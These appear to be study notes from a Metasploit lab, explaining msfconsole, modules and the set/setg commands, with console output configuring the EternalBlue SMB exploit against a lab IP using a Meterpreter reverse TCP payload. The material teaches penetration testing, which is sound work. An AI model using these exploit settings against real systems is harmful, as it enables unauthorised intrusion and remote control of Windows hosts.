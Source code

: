 The Metasploit Framework is a set of tools that allow information gathering, scanning, exploitation, exploit development, post-exploitation, and more. While the primary usage of the Metasploit Framework focuses on the penetration testing domain, it is also useful for vulnerability research and exploit development.

  

The main components of the Metasploit Framework can be summarized as follows;

- **msfconsole**: The main command-line interface.
- **Modules**: supporting modules such as exploits, scanners, payloads, etc.
- **Tools**: Stand-alone tools that will help vulnerability research, vulnerability assessment, or penetration testing. Some of these tools are msfvenom, pattern_create and pattern_offset. We will cover msfvenom within this module, but pattern_create and pattern_offset are tools useful in exploit development which is beyond the scope of this module.


While using the Metasploit Framework, you will primarily interact with the Metasploit console. You can launch it from the AttackBox terminal using the `msfconsole` command. The console will be your main interface to interact with the different modules of the Metasploit Framework. Modules are small components within the Metasploit framework that are built to perform a specific task, such as exploiting a vulnerability, scanning a target, or performing a brute-force attack.

EXAMPLE (Eternalblue):
As mentioned earlier, the `show options` command will list all available parameters.

The show options command

           `msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  Module options (exploit/windows/smb/ms17_010_eternalblue):     Name           Current Setting  Required  Description    ----           ---------------  --------  -----------    RHOSTS                          yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'    RPORT          445              yes       The target port (TCP)    SMBDomain      .                no        (Optional) The Windows domain to use for authentication    SMBPass                         no        (Optional) The password for the specified username    SMBUser                         no        (Optional) The username to authenticate as    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.   Payload options (windows/x64/meterpreter/reverse_tcp):     Name      Current Setting  Required  Description    ----      ---------------  --------  -----------    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)    LHOST     10.10.44.70      yes       The listen address (an interface may be specified)    LPORT     4444             yes       The listen port   Exploit target:     Id  Name    --  ----    0   Windows 7 and Server 2008 R2 (x64) All Service Packs   msf6 exploit(windows/smb/ms17_010_eternalblue) >`
        

  

As you can see in the screenshot above, some of these parameters require a value for the exploit to work. Some required parameter values will be pre-populated, make sure you check if these should remain the same for your target. For example, a web exploit could have an RPORT (remote port: the port on the target system Metasploit will try to connect to and run the exploit) value preset to 80, but your target web application could be using port 8080.

In this example, we will set the RHOSTS parameter to the IP address of our target system using the `set` command.

A Meterpreter command prompt

           `msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhosts 10.10.165.39 rhosts => 10.10.165.39 msf6 exploit(windows/smb/ms17_010_eternalblue) > show options  Module options (exploit/windows/smb/ms17_010_eternalblue):     Name           Current Setting  Required  Description    ----           ---------------  --------  -----------    RHOSTS         10.10.165.39     yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:'    RPORT          445              yes       The target port (TCP)    SMBDomain      .                no        (Optional) The Windows domain to use for authentication    SMBPass                         no        (Optional) The password for the specified username    SMBUser                         no        (Optional) The username to authenticate as    VERIFY_ARCH    true             yes       Check if remote architecture matches exploit Target.    VERIFY_TARGET  true             yes       Check if remote OS matches exploit Target.   Payload options (windows/x64/meterpreter/reverse_tcp):     Name      Current Setting  Required  Description    ----      ---------------  --------  -----------    EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)    LHOST     10.10.44.70      yes       The listen address (an interface may be specified)    LPORT     4444             yes       The listen port   Exploit target:     Id  Name    --  ----    0   Windows 7 and Server 2008 R2 (x64) All Service Packs`

![[Pasted image 20240814182856.png]]

  

You can override any set parameter using the set command again with a different value. You can also clear any parameter value using the `unset` command or clear all set parameters with the `unset all` command.

You can use the `setg` command to set values that will be used for all modules. The `setg` command is used like the set command. The difference is that if you use the `set` command to set a value using a module and you switch to another module, you will need to set the value again. The `setg` command allows you to set the value so it can be used by default across different modules. You can clear any value set with `setg` using `unsetg`.